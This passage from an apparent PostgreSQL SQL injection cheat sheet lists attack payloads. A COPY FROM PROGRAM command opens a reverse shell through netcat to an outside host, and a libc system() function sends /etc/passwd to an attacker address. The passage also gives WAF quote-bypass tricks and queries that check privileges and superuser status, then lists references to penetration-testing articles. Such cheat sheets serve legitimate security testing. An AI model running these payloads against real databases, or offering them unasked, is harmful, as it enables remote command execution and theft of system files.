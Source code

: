 ```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```

### Using libc.so.6

```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
```

## PostgreSQL WAF Bypass

### Alternative to Quotes

| Payload            | Technique |
| ------------------ | --------- |
| `SELECT CHR(65)\|\|CHR(66)\|\|CHR(67);` | String from `CHR()` |
| `SELECT $TAG$This` | Dollar-sign ( >= version 8 PostgreSQL)   |

## PostgreSQL Privileges

### PostgreSQL List Privileges

Retrieve all table-level privileges for the current user, excluding tables in system schemas like `pg_catalog` and `information_schema`.

```sql
SELECT * FROM information_schema.role_table_grants WHERE grantee = current_user AND table_schema NOT IN ('pg_catalog', 'information_schema');
```

### PostgreSQL Superuser Role

```sql
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## References

* [A Penetration Tester's Guide to PostgreSQL - David Hayter - July 22, 2017](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Advanced PostgreSQL SQL Injection and Filter Bypass Techniques - Leon Juranic - June 17, 2009](https://www.infigo.hr/files/INFIGO-TD-2009-04_PostgreSQL_injection_ENG.pdf)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - GreenWolf - March 20, 2019](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
* [Postgres SQL Injection Cheat Sheet - @pentestmonkey - August 23, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* [PostgreSQL 9.x Remote Command Execution - dionach - October 26, 2017](https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/)
* [SQL Injection /webApp/oma_conf ctx parameter - Sergey Bobrov (bobrov) - December 8, 2016](https://hackerone.com/reports/181803)
* [SQL Injection and Postgres - An Adventure to Eventual RCE - Denis Andzakovic - May 5, 2020](https://pulsesecurity.co.nz/articles/postgres-sqli)
